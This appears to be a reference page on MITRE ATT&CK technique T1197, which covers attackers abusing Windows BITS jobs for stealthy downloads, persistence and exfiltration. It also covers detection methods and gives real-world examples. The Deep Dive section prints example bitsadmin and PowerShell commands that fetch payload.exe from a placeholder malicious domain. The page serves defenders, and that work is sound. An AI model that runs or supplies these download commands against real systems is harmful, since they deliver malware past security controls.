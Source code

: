 ```yaml
---
description: BITS Jobs [T1197]
icon: lock
---
```


# BITS Jobs

## Information

* Name: BITS Jobs
* ID: T1197
* Tactics: [TA0005](./), [TA0003](../ta0003/)

## Introduction

BITS Jobs, or Background Intelligent Transfer Service jobs, is a technique categorized under the MITRE ATT\&CK framework (Technique ID: T1197). BITS is a legitimate Microsoft Windows service designed to facilitate asynchronous, prioritized, and throttled file transfers between machines over HTTP/HTTPS. Attackers exploit this built-in Windows component to stealthily download, execute, or exfiltrate data, leveraging its trusted status to evade detection and blend into normal network activity.

## Deep Dive Into Technique

Background Intelligent Transfer Service (BITS) is a native Windows component utilized primarily by Windows Update and other legitimate applications for transferring files in the background, ensuring minimal disruption to user experience. Attackers abuse BITS due to its native presence, trusted behavior, and ability to bypass certain firewall rules and network security measures.

Technical details and execution methods include:

* **BITSAdmin Tool**: Attackers commonly use the built-in command-line utility `bitsadmin.exe` to create and manage BITS jobs.
  *   Example command to create a job:

      ```
      bitsadmin /create maliciousJob
      bitsadmin /addfile maliciousJob http://malicious.domain/payload.exe C:\Windows\Temp\payload.exe
      bitsadmin /resume maliciousJob
      ```
  *   Execution after download:

      ```
      bitsadmin /complete maliciousJob
      ```
*   **PowerShell Integration**: Attackers may leverage PowerShell cmdlets to manage BITS jobs silently:

    ```powershell
    Start-BitsTransfer -Source "http://malicious.domain/payload.exe" -Destination "C:\Temp\payload.exe"
    ```
* **Persistence and Scheduled Tasks**: Attackers can use BITS jobs in combination with scheduled tasks to achieve persistence, ensuring malicious payloads are regularly downloaded and executed.
* **Data Exfiltration**: BITS can also facilitate data exfiltration by uploading files to attacker-controlled servers over HTTP or HTTPS, blending malicious traffic with legitimate network activities.

## When this Technique is Usually Used

BITS Jobs are commonly utilized by attackers across various stages and scenarios, including:

* **Initial Access and Execution**:
  * Delivering malicious payloads onto compromised hosts, bypassing traditional download restrictions.
  * Executing malware payloads directly after download.
* **Persistence and Scheduled Execution**:
  * Establishing recurring BITS jobs to maintain persistence and regularly update malicious payloads.
* **Defense Evasion**:
  * Using legitimate Windows services to evade detection by endpoint protection software and firewalls.
  * Leveraging trusted process execution (signed Microsoft binaries) to bypass application whitelisting.
* **Command and Control (C2) Communications**:
  * Utilizing BITS to periodically download instructions or payloads from attacker-controlled servers.
* **Data Exfiltration**:
  * Uploading sensitive data to external servers via BITS to conceal data exfiltration within legitimate traffic patterns.

## How this Technique is Usually Detected

Detection of malicious BITS Jobs involves monitoring system events, network traffic, and specific indicators of compromise (IoCs):

* **Event Logs and Process Monitoring**:
  * Monitor Windows Event Logs (Application/System logs) for suspicious BITS job creations and completions.
  * Track usage of `bitsadmin.exe` and PowerShell cmdlets (`Start-BitsTransfer`) with unusual parameters or sources.
* **Endpoint Detection and Response (EDR)**:
  * Use EDR solutions to detect anomalous behaviors, such as unexpected file downloads initiated by BITS.
  * Detect unusual child processes spawned by `svchost.exe` or `bitsadmin.exe`.
* **Network Traffic Analysis**:
  * Inspect outbound HTTP/HTTPS traffic originating from BITS processes (`svchost.exe`) to unusual or unknown external domains or IP addresses.
  * Detect repeated or periodic requests to suspicious URLs.
* **Behavioral Indicators and IoCs**:
  * Unusual BITS job names (e.g., random or suspicious naming conventions).
  * Downloads or uploads of executables or scripts from/to suspicious domains.
  * Unexpected binaries or scripts appearing in temporary directories (`C:\Windows\Temp`, `%APPDATA%`, `%TEMP%`).
* **Tools and Techniques for Detection**:
  * Sysmon (System Monitor) to log process creation, file creation, and network connections.
  * Windows Defender ATP, CrowdStrike Falcon, Carbon Black, or similar EDR platforms to detect anomalous activity.
  * Network IDS/IPS solutions to identify suspicious HTTP/HTTPS traffic patterns associated with BITS.

## Why it is Important to Detect This Technique

Early detection of malicious BITS Jobs is critical due to the following potential impacts:

* **Stealthy Malware Delivery and Execution**:
  * Attackers can quietly deliver and execute malware, ransomware, or remote access tools, bypassing traditional antivirus and firewall protections.
* **Persistence and Long-Term Compromise**:
  * Undetected BITS jobs enable attackers to maintain persistent access, conduct long-term espionage, or repeatedly deliver updated malicious payloads.
* **Data Exfiltration Risks**:
  * Attackers may leverage BITS to exfiltrate sensitive data, such as intellectual property, personally identifiable information (PII), or credentials, causing significant financial and reputational damage.
* **Defense Evasion Capability**:
  * Exploiting trusted Windows services allows attackers to evade traditional security controls, making detection challenging without specialized monitoring.
* **Early Stage Detection Advantage**:
  * Identifying malicious BITS activity early in the attack lifecycle can prevent further lateral movement, privilege escalation, or damage within the network environment.

## Examples

Real-world examples of BITS Jobs abuse in cyber-attacks include:

* **APT Groups and Nation-State Actors**:
  * **APT29 (Cozy Bear)**:
    * Utilized BITS jobs to download second-stage payloads and maintain persistence within compromised environments.
    * Leveraged legitimate Windows utilities (`bitsadmin.exe`) to evade detection by endpoint security solutions.
  * **APT41**:
    * Employed BITS to download and execute payloads during targeted attacks against healthcare and technology sectors.
* **Commodity Malware and Ransomware Campaigns**:
  * **Ryuk Ransomware**:
    * Leveraged BITS jobs to download additional malicious payloads onto compromised systems, enabling lateral movement and further compromise.
  * **Emotet Malware**:
    * Utilized BITS to silently retrieve payload updates and modules from attacker-controlled infrastructure, evading network detection.
* **Penetration Testing Tools and Frameworks**:
  * **Metasploit Framework**:
    * Includes modules (`exploit/windows/local/bits_ntlm_token_impersonation`) that leverage BITS jobs for privilege escalation and payload delivery.
  * **Empire Framework**:
    * Offers built-in functionality to leverage BITS for payload delivery and persistence, demonstrating how attackers commonly exploit this legitimate service.

Impacts observed in these real-world scenarios include:

* Successful evasion of antivirus and endpoint protection solutions.
* Persistent long-term compromise of critical infrastructure, government entities, and private sector organizations.
* Large-scale data breaches and significant financial losses resulting from ransomware infections and data exfiltration.
